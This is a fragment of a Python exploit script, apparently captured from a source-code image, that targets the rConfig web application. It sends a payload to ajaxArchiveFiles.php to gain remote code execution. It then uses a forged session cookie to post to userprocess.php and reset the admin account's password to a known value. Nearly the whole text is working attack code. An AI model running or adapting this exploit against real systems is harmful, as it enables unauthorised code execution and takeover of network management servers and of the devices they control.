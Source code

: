                           'ext': payload_final

                         }

                rce=s.get(url+'lib/ajaxHandlers/ajaxArchiveFiles.php', verify=False, params=params)

                if "success" in rce.text:

                    print("(+) Payload executed successfully")

                else:

                    print("(-) Error when executing payload, please debug the exploit")

     

     

    def user_enum_update():

        users=requests.get(url+'useradmin.inc.php', verify=False)

        #matchObj = re.findall(r'<td align="center">(.*?)</td>', users.text, re.M|re.I|re.S)

        

        if "admin" in users.text:

          print("(+) The admin user is present in this rConfig instance")

          multipart_data = MultipartEncoder(

           fields={

                   'username': 'admin',

                   'password': 'Testing1@', #password should have a capital letter, lowercase, number and a symbol

                   'passconf': 'Testing1@',

                   'email': 'admin@admin.com',

                   'ulevelid': '9',

                   'add': 'add',

                   'editid': '1' #you may need to increment this if you want to reset the password of a different user

                  }

           )

          headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer, "Origin":origin}

          cookies = {'PHPSESSID': 'test'}

          response = requests.post(url+'lib/crud/userprocess.php', data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)

          if "error" not in response.text:

              print("(+) The new password for the admin user is Testing1@")

          else:

              print("(-) Admin user couldn't be edited, please debug the exploit")
